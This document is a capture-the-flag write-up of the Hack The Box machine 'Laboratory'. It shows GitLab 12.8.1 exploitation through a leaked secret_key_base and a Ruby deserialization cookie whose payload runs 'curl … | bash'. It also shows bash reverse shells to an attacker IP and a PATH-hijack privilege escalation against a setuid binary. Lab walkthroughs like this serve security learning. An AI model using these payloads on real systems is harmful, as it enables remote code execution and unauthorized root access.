

Laboratory is a Linux machine. The ip of the box is 10.10.10.216.

# Recon

I starting with *nmap* scan `nmap -sC -Sv -oA nmap/laboratory 10.10.10.216`


And I found three services:
- *ssh*
- 2 *webserver apache*

and got 2 vhost `laboratory.htb` and `git.laboratory.htb` that i added on hosts file.

On `laboratory.htb` there is a static site


and i can take some potential username: `dexter`, `dee dee`, `anonymous`.

While on `git.laboratory.htb` there is a gitlab instance.


On this page i can signup


and then login



So i check for gitlab version and found that is running the `12.8.1 version`
On hackerone i found this [article](https://hackerone.com/reports/827052) that explain two vulnerabilities.


# User
So i just following the article and create 2 repositories, create a issue on one with the following string
>``


 
then moved the issue on the second repo. In this way i got the `secret_key_base` of gitlab that i can use for second vulnerability.


For second vulnerability i installed locally gitlab(version 12.8.1) and changed the default value of `secret_key_base` in `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` with the remote value, subsequently i run `gitlab-rails console` for generate a cookie.

rails console:
```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `curl 10.10.14.195:8000/t.sh | bash` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

t.sh:
>bash -i >& /dev/tcp/10.10.14.195/9090 0>&1

And obtain the follow cookie:

>BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiZCNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIDEwLjEwLjE0LjE5NTo4MDAwL3Quc2ggfCBiYXNoYCApLnRvX3MpOyBfZXJib3V0BjoGRUY6DkBlbmNvZGluZ0l1Og1FbmNvZGluZwpVVEYtOAY7CkY6E0Bmcm96ZW5fc3RyaW5nMDoOQGZpbGVuYW1lMDoMQGxpbmVub2kAOgxAbWV0aG9kOgtyZXN1bHQ6CUB2YXJJIgxAcmVzdWx0BjsKVDoQQGRlcHJlY2F0b3JJdTofQWN0aXZlU3VwcG9ydDo6RGVwcmVjYXRpb24ABjsKVA==--50620b331c33a29f8263103667f196cb9ed8ae0f

now insert this cookie in the curl request


and i got rev shell as user `git`. Now i run `gitlab-rails console`  and change the password for the user `dexter`. ([cheatsheet1](https://docs.gitlab.com/ee/administration/troubleshooting/gitlab_rails_cheat_sheet.html),[cheatsheet2](https://docs.gitlab.com/ee/security/reset_user_password.html))


Now i can login on gitlab as user `dexter` and there is a repo called `secureDocker` and within  there is the [ssh](https://git.laboratory.htb/dexter/securedocker/-/raw/master/dexter/.ssh/id_rsa) key of `dexter`.


Now can login and grab the user flag.


# Root
For root i performed a classic enumeration and i found a executable called  `docker-security` in `/usr/local/bin/`
So i used `radare` for explore the content.

This is the main function


```c 
{
  setuid(0);
  setgid(0);
  system("chmod 700 /usr/bin/docker");
  system("chmod 660 /var/run/docker.sock");
}

```

So the executable run `chmod` as `root`, the `chmod` is executing  without the full path, so i can create a new file called `chmod` with the following content

>bash -c \`exec bash -i &>/dev/tcp/10.10.14.149/9090 >&1 \`

and update the variable `$PATH` 

>export PATH=/tmp:$PATH


Now the path `/tmp` with my version of chmod is at the beginning of `$PATH` and when i run `docker-security` is executed chmod in tmp instead of chmod in bin.


and got shell as `root` and can grab the root flag.


